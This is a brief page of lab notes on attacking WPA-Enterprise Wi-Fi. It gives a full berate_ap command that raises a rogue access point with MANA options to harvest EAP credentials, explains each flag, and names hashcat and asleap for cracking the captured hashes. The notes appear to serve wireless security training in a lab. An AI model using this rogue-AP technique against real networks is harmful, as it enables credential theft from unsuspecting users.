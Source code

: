 # Attacks against Enterprise Networks

user `berate_ap` tool

```bash
./berate_ap --eap --mana-wpe --mana-eapsuccess --mana-eaptls --colour -c 11 wlan0 eth0 AnyName

# eap -> type of attack is Enterprise attack
# mana-wpe -> extract crediantion from eap
# mana-eapsuccess -> fool type of devices are conneceted like iphone 
# mana-eaptls -> accept TLS connection
```

![image.png](<../../../.gitbook/assets/image (31).png>)

![2025-06-17 14\_31\_46-Wifi\_labs - VMware Workstation.png](<../../../.gitbook/assets/2025 06 17_14_31_46 Wifi_labs_ _VMware_Workstation.png>)

***

After use entered password

<figure><img src="../../../.gitbook/assets/image 1 (17).png" alt=""><figcaption></figcaption></figure>

password will be hashed

and this tool give us two tools to crack this hash like `hashcat, asleap`
